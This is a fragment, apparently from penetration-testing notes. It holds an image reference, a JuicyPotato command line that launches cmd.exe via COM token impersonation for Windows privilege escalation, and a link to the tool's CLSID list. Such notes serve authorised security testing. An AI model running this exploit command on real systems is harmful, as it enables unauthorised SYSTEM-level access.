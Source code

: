juicypotato.exe -l 1337 -p c:\windows\system32\cmd.exe -t * -c {clsid}

https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_7_Enterprise
